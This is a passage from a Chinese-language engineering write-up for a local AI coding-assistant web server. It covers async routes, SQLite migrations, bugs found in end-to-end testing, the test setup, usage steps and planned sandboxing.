

所以全部改成 `async def`。这些路由都很快（读内存、写几行 SQLite），不会阻塞事件循环。真正耗时的工作（模型请求、子进程）本来就是异步的。这也是“单进程、单 worker”这条约束的来由：运行状态在内存里，多个 worker 之间无法共享。

---

## 14. 数据库迁移

阶段 2 给 `sessions` 表加了 `settings_json` 列，还新增了 `approvals` 表。`create table if not exists` 能补出缺少的表，但不会给已有的表加列。阶段 1 留下的数据库一打开就报错（实测 CLI 在旧数据库上崩溃，见第 15 节）。

```python
MIGRATIONS = [  # 只追加：MIGRATIONS[i] 把版本 i 升到 i+1
    "alter table sessions add column settings_json text not null default '{}'",
]

def _migrate(self):
    existed = sessions 表已存在
    executescript(SCHEMA)                       # 补齐缺失的表（按最新结构）
    version = pragma user_version if existed else len(MIGRATIONS)   # 新库直接是最新版
    for sql in MIGRATIONS[version:]: execute(sql)
    pragma user_version = len(MIGRATIONS)
```

`PRAGMA user_version` 是 SQLite 文件头里一个现成的整数，专门给应用记录 schema 版本，不需要额外建表。

顺带修正了一处表述：设计文档说 `sessions` 表“可以从 JSONL 重建”。现在它多了模型和权限设置，这两项不在 JSONL 里，所以准确的说法是：标题、叶子、索引字节数是缓存；模型和设置以 SQLite 为准。

---

## 15. 实测中踩到的坑

单元测试全部通过之后，用浏览器做端到端测试又发现了 5 个问题。它们都已修复，并且都有对应的测试或验证：

| # | 现象 | 根因 | 修复 |
|---|---|---|---|
| 1 | 首个 API 请求 500，SQLite 线程错误 | 普通 `def` 路由跑在线程池里 | 全部改为 `async def`（第 13 节） |
| 2 | 重启服务后页面显示“已连接”，却收不到任何新消息 | uvicorn 优雅关闭会**无限等待**所有连接结束，SSE 连接永远不会自己结束。旧进程卡在关闭中，页面仍连着它；新进程已在接收新请求，它的事件页面收不到。关闭钩子也从没执行，运行没被标为 interrupted | `timeout_graceful_shutdown=3`：3 秒后强制断开，浏览器随即重连到新进程 |
| 3 | 新一轮的 bash 没有执行，直接返回“结果未知” | 假模型每次都用同一个调用 id `call_s`。`run_tools` 在整条路径上找 `tool_started`，把上一轮同名 id 当成了“被中断的调用”。真实的供应商也可能复用 `call_0` 这类 id | 只看最近一条 assistant 之后的条目（`_this_turn`）；取消时补结果用同样的规则 |
| 4 | CLI 在旧数据库上崩溃 | 新增列没有迁移 | `user_version` 迁移（第 14 节） |
| 5 | CLI 不再显示 `⏺ bash(...)` 标题行 | 打印器记录“已显示过的调用 id”，跨轮没清空，和第 3 条同源 | 每条 assistant 条目到来时清空 |

第 2 条和第 3 条都是只靠单元测试很难发现的问题。第 3 条已有回归测试 `test_reused_call_ids_across_turns_are_not_mistaken_for_interrupted_calls`。

---

## 16. 测试

### 16.1 用真实服务器测 SSE

httpx 的进程内 ASGI 传输会等响应全部结束才返回，而 SSE 永不结束，所以 API 测试启动一个**真实的 uvicorn**，监听随机端口：

```python
class Server:
    async def __aenter__(self):
        self.srv = uvicorn.Server(uvicorn.Config(create_app(ws, TOKEN), host="127.0.0.1", port=0))
        self.task = asyncio.create_task(self.srv.serve())
        while not self.srv.started: await asyncio.sleep(0.01)
        port = self.srv.servers[0].sockets[0].getsockname()[1]      # 系统分配的端口
```

`Stream` 辅助类在后台读取 SSE，收到 `leaf` 事件（说明订阅已建立）后才让测试继续发消息，避免竞态。

需要“让模型等一等”的测试（插话、重启），给 `FakeModel` 传一个 async 函数，由测试里的 `asyncio.Event` 控制它什么时候返回。

### 16.2 测试矩阵



### 16.3 浏览器端到端

用假 OpenAI 服务 + `nwb serve` + 应用内浏览器，实际操作了一遍：

| 操作 | 结果 |
|---|---|
| 令牌链接登录 | cookie 生效，未登录访问返回 401 |
| 发消息 → 审批卡片 → 刷新页面 | 刷新后审批卡片从快照中恢复 |
| 点“允许” | 工具执行，回复流式出现，用量和标题更新 |
| 编辑第一条消息并重新生成 | 出现 ‹ 2/2 ›，会话树出现分支；点 ‹ 回到 1/2 |
| “本会话总是允许 bash” | 之后的 bash 不再询问 |
| 运行中插话、再点停止 | 插话先显示为待送达，停止后文字退回输入框，后台进程被杀死 |
| 运行中 Ctrl-C 关服务再启动 | 4 秒内退出，标为 interrupted；新进程自动续跑；页面自动重连并显示结果 |

---

## 17. 使用方式

```bash
cd web && npm install && npm run build && cd ..   # 构建前端（一次即可，改了前端再构建）
export OPENDESIGN_API_KEY=你的key
uv run nwb serve                                  # 会自动打开浏览器
```

- 左侧“＋ 添加项目”输入项目目录的绝对路径，再点项目名旁的“＋”新建会话。
- 顶部可以切换模型和权限模式；“会话树”打开右侧的树面板。
- 运行中：回车 = 插话，“排队” = 做完再做，“停止” = 取消（会杀掉它启动的进程）。
- 前端开发：`nwb serve` 与 `cd web && npm run dev` 同时运行，用 `http://localhost:5173/api/login?token=…` 登录（令牌在 `~/.nwb/token`），改代码即时生效。

---

## 18. 已知限制和下一步

| 限制 | 说明 |
|---|---|
| 权限只有两档，没有沙箱 | 阶段 3：规则表 + Seatbelt/bwrap + 只读/工作区/完全信任三档 |
| 前端构建产物不进 git | 新克隆需要先 `npm run build`；以后可以在发布时打包进 wheel |
| 单进程 | 运行状态在内存里，不能开多个 worker；对本机个人助手足够 |
| 快照包含全部条目 | 会话很长时首屏会变慢，届时再做分页 |
| 只有 OpenAI Chat 协议 | 阶段 3 加 Anthropic Messages |

**阶段 3：完整地基。** 包括 Anthropic 协议适配与缓存断点、权限规则表与预设档位、Seatbelt / bwrap 沙箱、上下文治理的第 2、3 级（清理旧工具结果、摘要压缩）、模型切换时的预算检查。
